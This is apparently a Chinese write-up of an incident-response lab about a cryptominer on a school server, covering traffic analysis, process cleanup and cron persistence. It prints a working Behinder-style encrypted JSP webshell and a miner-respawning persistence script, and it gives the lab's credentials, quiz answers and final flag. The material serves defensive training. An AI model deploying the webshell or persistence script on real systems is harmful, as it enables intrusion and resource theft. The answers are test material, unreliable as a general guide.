






:::info

学校挖矿病毒应急响应靶场考察点

此靶场有挖矿进程，cpu会百分百占用，开启后优先终结挖矿释放cpu以获得更好的体验，并节省机房开销

SSH远程端口：2222 账号密码：root/edusec123

需要分析的hacker2025.pcap文件在根目录中

请执行root目录下的flag程序，答题获取flag

一、流量分析能力

- 统计存在Web扫描特征的IP数量（基于404状态码筛选）
- 根据时间、IP、端口三要素提取特定URL路径
- 识别NMAP扫描特征IP（基于HTTP头关键字、TCP SYN扫描特征筛选）
- 通过流量审计定位攻击者漏洞利用接口、注册用户名及木马文件名

二、漏洞识别与溯源

- 排查Web应用中的任意文件上传漏洞
- 溯源攻击者注册用户名及登录凭证
- 分析漏洞利用路径及关键操作记录（文件上传接口、木马访问行为）

三、恶意文件与进程处理

- 定位并清除Webshell文件（基于流量分析结果模糊查找文件路径）
- 识别挖矿进程及矿池地址（反编译挖矿jar包提取配置信息）
- 删除挖矿程序文件并终止相关进程

四、后门排查与清除

- 检测隐藏计划任务（crontab定时执行脚本）
- 定位后门程序路径及备份挖矿文件
- 清除定时任务、后门脚本、备份挖矿程序等全套恶意组件

五、应急响应流程实操

- 系统资产探测（NMAP扫描网段获取目标IP）
- 远程连接目标主机（SSH端口登录）
- 按应急响应三要素（时间关联性、IP行为关联性、完整步骤）编写报告
- 漏洞修复与安全加固（文件上传白名单配置、业务系统清理）

六、工具使用能力

- Wireshark/ZUI（流量筛选、TCP流追踪、状态码统计）
- Linux命令（find查找文件、rm删除文件、kill终止进程、crontab管理计划任务）
- 反编译工具（JADX分析挖矿jar包）
- 漏洞扫描与验证工具（Nessus、人工渗透测试）

:::

排查进程



查看进程相关文件

```bash
root@1818c9e077a4:~# ls -l /proc/711
total 0
-r--r--r--  1 root root 0 Apr 10 15:04 arch_status
dr-xr-xr-x  2 root root 0 Apr 10 15:04 attr
-rw-r--r--  1 root root 0 Apr 10 15:04 autogroup
-r--------  1 root root 0 Apr 10 15:04 auxv
-r--r--r--  1 root root 0 Apr 10 15:02 cgroup
--w-------  1 root root 0 Apr 10 15:04 clear_refs
-r--r--r--  1 root root 0 Apr 10 15:03 cmdline
-rw-r--r--  1 root root 0 Apr 10 15:04 comm
-rw-r--r--  1 root root 0 Apr 10 15:02 coredump_filter
-r--r--r--  1 root root 0 Apr 10 15:04 cpu_resctrl_groups
-r--r--r--  1 root root 0 Apr 10 15:04 cpuset
lrwxrwxrwx  1 root root 0 Apr 10 15:04 cwd -> /root
-r--------  1 root root 0 Apr 10 15:04 environ
lrwxrwxrwx  1 root root 0 Apr 10 15:02 exe -> /usr/lib/jvm/java-11-openjdk-amd64/bin/java
dr-x------  2 root root 0 Apr 10 15:04 fd
........
root@1818c9e077a4:~# cat /proc/711/cmdline
java-jar/tmp/miner.jar
```

然后 kill 进程

```bash
【题目 1/5】
第一个问题：最终使用nmap扫描的IP是？
请输入答案: 192.168.37.4
```

分析流量包



nmap 在http协议下的扫描特征，请求头或者UA头里存在nmap字样

```
http.request.headers contains "Nmap"  
http.user_agent contains "Nmap"
```



如果只进行了端口扫描，nmap中使用TCP SYN扫描的情况下，可以进行筛选

```
tcp.flags.syn == 1 and tcp.window_size == 1024 and tcp.len == 0 and ip.frag_offset == 0
```

 默认情况下大部分版本的nmap窗口大小为 1024，当然也有其它版本的扫描可能为： 2048, 3072,4096



```bash
【题目 2/5】
第二个问题：攻击者在web系统中注册的用户名是？
请输入答案: wangyunqing
```



```bash
【题目 3/5】
第三个问题：最终成功控制主机的木马文件名是？
请输入答案: 70b86b64-ce15-46bf-8095-4764809e2ee5.jsp
```

上传了一个jsp文件

```jsp
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(java.util.Base64.getDecoder().decode(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```

```
【题目 4/5】
第四个问题：矿池地址是多少？
请输入答案: pool.minexmr.com:4444
```

`java-jar/tmp/miner.jar`占用大量CPU资源，判断为挖矿程序

反编译上面的jar包，发现矿池地址和钱包地址



```
第五个问题：后门程序的路径是？
请输入答案: /usr/share/.per/persistence.sh
✅ 回答正确！

🎉 恭喜你！全部答对了！
完成！最终flag：7d2cb26f96a2185f7a63d68776d55911
```

挖矿程序肯定会有守护进程和后门的，kill进程，删除`miner.jar`之后，果然过了一会又释放了文件

排查定时任务

```bash
cat /etc/crontab
ls -l /etc/cron*
ls -la /var/spool/cron/crontabs/
crontab -l
```

```bash
root@1818c9e077a4:/tmp# crontab -l
* * * * * /usr/share/.per/persistence.sh
```

查看sh脚本

```bash
root@1818c9e077a4:/tmp# cat /usr/share/.per/persistence.sh
#!/bin/bash

SOURCE_FILE="/usr/share/.miner/miner.jar"
DEST_FILE="/tmp/miner.jar"
PROCESS_NAME="java -jar $DEST_FILE"
LOG_FILE="/var/log/.malware_events.log"


if pgrep -f "$PROCESS_NAME" > /dev/null; then
    
    exit 0
else
    
    echo "[$(date)] Miner process not found. Taking action..." >> "$LOG_FILE"

   
    if [ ! -f "$DEST_FILE" ]; then
        echo "[$(date)] Miner file ($DEST_FILE) is missing. Restoring from backup..." >> "$LOG_FILE"
        
        cp "$SOURCE_FILE" "$DEST_FILE"
        chmod +x "$DEST_FILE"
    fi


    if [ -f "$DEST_FILE" ]; then
        nohup java -jar "$DEST_FILE" > /dev/null 2>&1 &
        echo "[$(date)] Miner process restarted with PID $!." >> "$LOG_FILE"
    else

        echo "[$(date)] CRITICAL: Could not restore miner file from backup. Cannot start." >> "$LOG_FILE"
    fi
fi
```

接着分析一下sh文件的作用

```bash
备份源文件是 /usr/share/.miner/miner.jar
运行副本放在 /tmp/miner.jar
用 pgrep -f "java -jar /tmp/miner.jar" 检查矿工是否还活着
如果进程没了，就记录日志到 /var/log/.malware_events.log
如果 /tmp/miner.jar 也没了，就从 /usr/share/.miner/miner.jar 复制回来并 chmod +x
然后后台执行 nohup java -jar /tmp/miner.jar > /dev/null 2>&1 &
```

清理挖矿程序、后门程序、备份文件、定时任务

```bash
root@1818c9e077a4:/tmp# kill -9 13624
root@1818c9e077a4:/tmp# rm -rf miner.jar 
root@1818c9e077a4:/tmp# crontab -e
crontab: installing new crontab
root@1818c9e077a4:/tmp# crontab -l
root@1818c9e077a4:/tmp# rm /usr/share/.per/persistence.sh
root@1818c9e077a4:/tmp# rm /usr/share/.miner/miner.jar
root@1818c9e077a4:/tmp# rm /var/log/.malware_events.log
```

总结

黑客注册用户登录网站，利用上传接口上传 webshell ，通过 webshell 添加了挖矿程序、后门

参考

https://mp.weixin.qq.com/s/xIh4NukshMVEIuQzuu4rbw
